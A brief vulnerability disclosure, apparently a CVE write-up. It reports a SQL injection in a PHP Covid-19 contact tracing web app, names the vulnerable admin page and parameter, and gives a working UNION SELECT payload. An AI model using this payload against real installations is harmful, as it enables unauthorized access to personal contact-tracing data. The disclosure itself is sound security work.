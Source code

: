 # Covid-19 Contact Tracing System v1.0 has SQL injection

BUG_Author: TangJun

vendors: https://www.sourcecodester.com/php/14728/covid-19-contact-tracing-system-web-app-qr-code-scanning-using-php-source-code.html

Vulnerability url: /cts_qr/admin/establishment/manage.php?id.

Payload: id=-3 union all select null,null,concat(0x66676869,0x3536373839),null,null,null,null-- -

The union query succeeds, proving that SQL injection vulnerability exists

![image](https://github.com/BacteriaJun/cve/blob/main/sql.png)
